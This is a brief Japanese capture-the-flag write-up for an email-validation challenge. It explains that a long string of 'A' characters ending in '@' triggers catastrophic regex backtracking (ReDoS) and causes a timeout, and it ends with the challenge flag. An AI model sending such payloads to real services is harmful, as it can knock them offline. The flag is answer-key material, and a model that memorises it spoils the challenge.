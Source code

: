 # Mail_Address_Validator
## Write-up
ソースコードの処理を見ているとメールアドレスを正規表現でチェックし、タイムアウトさせるとフラグがゲット出来るようなので、ReDos攻撃を行いタイムアウトさせる。

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@を送りつける
```

## Flag
ctf4b{1t_15_n0t_0nly_th3_W3b_th4t_15_4ff3ct3d_by_ReDoS}